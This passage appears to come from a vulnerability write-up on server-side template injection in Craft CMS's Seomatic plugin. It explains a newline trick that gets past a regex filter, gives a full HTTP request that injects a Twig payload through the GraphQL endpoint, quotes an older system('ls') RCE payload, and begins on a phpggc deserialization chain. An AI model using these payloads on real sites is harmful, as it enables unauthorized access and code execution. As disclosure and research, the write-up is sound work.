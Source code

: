 ```php
        // var_dump($result);
        if (!empty($result) && $result) {
            $url = $result;
        } else {
            $url = '';
        }

        return $url;
    }
```
Hopefully for attacker Regular Expressions (Perl-Compatible) have some funny behavior that will allows to bypass such protection. Let's take a look at [docs](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php) 
```
s (PCRE_DOTALL) 
If this modifier is set, a dot metacharacter in the pattern matches all characters, including newlines. Without it, newlines are excluded.
```
Finally to bypass protection malicious user should split it template injection payload with new line symbols. Proof of Concept can be presented as `{{\n13*13\n}}`. 
Seomatic plugin API was disabled at target assets - it is another major obstacle to seccusefully inject Twig template. By default it should be available at endpoint `/actions/seomatic/meta-container/all-meta-containers?uri=` and if you are lucky you can skip next section. 
![Seomatic plugin API](images/seomatic-config.png)

### Graphql
There is another way to exploit vulnerability - Graphql Controller. By default graphql query available at `/actions/graphql/api`. Seomatic plugin register its seomatic query by default. We can get access to Secret information with unauthorization request to graphql api with `uri` value `{{\n1337*13\n}}`.

```html
POST /index.php?p=admin/actions/graphql/api HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8000/admin/seomatic/plugin
X-Requested-With: XMLHttpRequest
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 81

query=query{seomatic(uri:"{{\n1337*13\n}}"){metaTitleContainer,metaTagContainer}}

```
![Seomatic SSTI](images/seomatic-ssti-1337.png)

### Remote code execution by unserialize
The old Remote Code Execution exploit available at internet looks like `{{craft.app.view.evaluateDynamicContent('print(system("ls"))')}}` but unfortunately for us it was disabled at version 3.5.0. At first I was trying to get RCE chain by unserialize function at `craft.app.getQueue().unserializeMessage()`. The only working chain at Craft CMS environment is *Guzzle/FW1* but it has some limitations that should be addressed first. Serialized object contains `{}` chars. We should modify string to exclude them from payload. As you may know PHP support `\\x00` encoding. I modified **phpggc** tool to print out exploit in new encoding. So it looks like:
